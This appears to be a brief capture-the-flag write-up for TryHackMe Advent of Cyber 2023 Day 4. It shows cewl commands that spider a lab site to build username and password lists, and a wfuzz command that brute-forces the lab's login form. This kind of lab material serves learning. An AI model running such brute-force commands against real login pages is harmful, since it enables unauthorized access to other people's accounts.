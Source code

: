 # Day 4
## Website used to spider and create ordlist
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/36433fac-524e-42ab-aeb0-c9a3d0d712c0)

## cewl
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/344dce6d-d5e3-4e51-b2f9-2f68bbf2dc2b)
generating username and password lists
```s
cewl -d 2 -m 5 -w passwords.txt http://10.10.50.197 --with-numbers
```
```s
cewl -d 0 -m 5 -w usernames.txt http://10.10.50.197/team.php --lowercase
```
## Cracking with wfuzz
```s
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.50.197/login.php -d "username=FUZZ&password=FUZ2Z"
```







